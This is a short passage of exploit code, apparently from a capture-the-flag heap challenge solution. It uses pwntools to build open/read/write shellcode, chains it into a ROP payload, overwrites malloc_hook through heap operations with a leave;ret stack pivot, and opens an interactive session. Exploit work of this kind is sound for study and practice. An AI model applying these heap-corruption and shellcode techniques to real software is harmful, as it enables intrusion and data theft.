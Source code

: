 ```
    code = asm(pwnlib.shellcraft.amd64.linux.open(buffer_addr, 0, 2).replace("push SYS_open", "push 2"))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_read', 'rax', heap_addr, 0x100))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_write', 1 , heap_addr, 0x100).replace("push SYS_write", "push 1"))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_exit', 0))

    ROP_CHAIN += code

    buy_house(6, 0x217, ROP_CHAIN)
    buy_house(7, 0x217, p64(malloc_hook) * 0x40)
    buy_super(p64(leave_ret) * 2)
    sell(1)
    buy_house(1, heap_base + 0x16a0 - 8, ROP_CHAIN, logging = True)

    p.interactive()

```